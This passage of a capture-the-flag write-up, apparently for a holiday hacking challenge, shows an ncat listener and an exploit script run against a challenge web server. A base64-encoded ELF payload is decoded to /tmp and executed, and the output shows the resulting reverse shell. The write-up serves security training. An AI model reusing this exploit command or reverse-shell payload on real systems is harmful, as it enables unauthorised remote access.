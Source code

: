              <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Ncat: Version 7.60 ( https://nmap.org/ncat )</span>
             <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Ncat: Generating a temporary 1024-bit RSA key. Use
              --ssl-key and --ssl-cert to use a permanent one.</span>
              <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Ncat: SHA-1 fingerprint: 9993 1122 1B19 3873 14D4
               3847 847C 7617 0F86 C60E</span>
               <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Ncat: Listening on :::55778</span>
               <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Ncat: Listening on 0.0.0.0:55778</span></pre>
               <p> </p>
               <p class="MsoNormal">Then I sent the payload…</p>
               <p> </p>
               <pre class="MsoFooter" style="margin-left: .5in;"><b><span style="font-size: 12.0pt; color: #c33720; mso-fareast-language: ZH-CN;">root@kali</span></b><span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">:</span><b><span style="font-size: 12.0pt; color: #5230e1; mso-fareast-language: ZH-CN;">~/exploits/2017-shhc/l2s</span></b><span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;"># python 42627.py https://dev.northpolechristmastown.com/order/3
                "rm -f /tmp/tkfpayload.tmp ; echo
                 f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAiYAAAA3AAAAAcAAAAAEAAAMdv341NDU2oCieGwZs2Ak1mwP82ASXn5aEfabUxoAgDZ4onhsGZQUVOzA4nhzYBSaG4vc2hoLy9iaYnjUlOJ4bALzYA=
                  | base64 -d | tee -a /tmp/tkfpayload.tmp ; /bin/chmod +x /tmp/tkfpayload.tmp ;
                   /tmp/tkfpayload.tmp”</span></pre>
                   <p> </p>
                   <p class="MsoNormal">And I received a reverse shell…</p>
                   <p> </p>
                   <pre class="MsoFooter" style="margin-left: .5in;"><span class="s1"><span style="font-size: 12.0pt;">Ncat: Connection from 35.190.176.177.</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">Ncat: Connection from 35.190.176.177:45370.</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">bin</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">boot</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">dev</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">etc</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">home</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">initrd.img</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">initrd.img.old</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">lib</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">lib32</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">lib64</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">libx32</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">lost+found</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">media</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">mnt</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">opt</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">proc</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">root</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">run</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">sbin</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">srv</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">sys</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">tmp</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">usr</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">var</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">vmlinuz</span></span>
                   <span class="s1"><span style="font-size: 12.0pt;">vmlinuz.old</span></span></pre>
                   <p> </p>
                   <p class="MsoNormal">Upon having the remote shell opened up and working, it was time to get to work. The shell was running as the ‘alabaster_snowball’ user, which is a red flag. <i>Never, ever, run your services as a real user.</i></p>